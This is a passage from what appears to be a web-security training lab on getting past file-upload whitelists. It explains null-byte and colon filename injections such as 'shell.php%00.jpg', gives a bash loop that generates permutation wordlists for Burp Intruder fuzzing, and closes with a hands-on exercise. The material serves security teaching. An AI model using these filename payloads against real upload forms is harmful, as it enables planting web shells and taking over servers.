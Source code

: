 <li>
<code>%0d0a</code>
</li>
<li>
<code>/</code>
</li>
<li>
<code>.\</code>
</li>
<li>
<code>.</code>
</li>
<li>
<code>…</code>
</li>
<li>
<code>:</code>
</li>
</ul>
<p>Each character has a specific use case that may trick the web application to misinterpret the file extension. For example, (<code>shell.php%00.jpg</code>) works with PHP servers with version <code>5.X</code> or earlier, as it causes the PHP web server to end the file name after the (<code>%00</code>), and store it as (<code>shell.php</code>), while still passing the whitelist. The same may be used with web applications hosted on a Windows server by injecting a colon (<code>:</code>) before the allowed file extension (e.g. <code>shell.aspx:.jpg</code>), which should also write the file as (<code>shell.aspx</code>). Similarly, each of the other characters has a use case that may allow us to upload a PHP script while bypassing the type validation test.</p>
<p>We can write a small bash script that generates all permutations of the file name, where the above characters would be injected before and after both the <code>PHP</code> and <code>JPG</code> extensions, as follows:</p>
<pre><code class="language-bash">for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" &gt;&gt; wordlist.txt
        echo "shell$ext$char.jpg" &gt;&gt; wordlist.txt
        echo "shell.jpg$char$ext" &gt;&gt; wordlist.txt
        echo "shell.jpg$ext$char" &gt;&gt; wordlist.txt
    done
done
</code></pre>
<p>With this custom wordlist, we can run a fuzzing scan with <code>Burp Intruder</code>, similar to the ones we did earlier. If either the back-end or the web server is outdated or has certain misconfigurations, some of the generated filenames may bypass the whitelist test and execute PHP code.</p>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Exercise:</b> Try to add more PHP extensions to the above script to generate more filename permutations, then fuzz the upload functionality with the generated wordlist to see which of the generated file names can be uploaded, and which may execute PHP code after being uploaded.</p>
</div>
</div>
<div class="mb-5 pwnbox-select-card"></div>
<div id="screen" style="height: 600px; border: 1px solid;">
<div class="screenPlaceholder">
<div class="instanceLoading" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Instance is starting...</div>
</div>
<div class="instanceTerminating" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Terminating instance...</div>
</div>
<div class="row instanceStart max-width-canvas">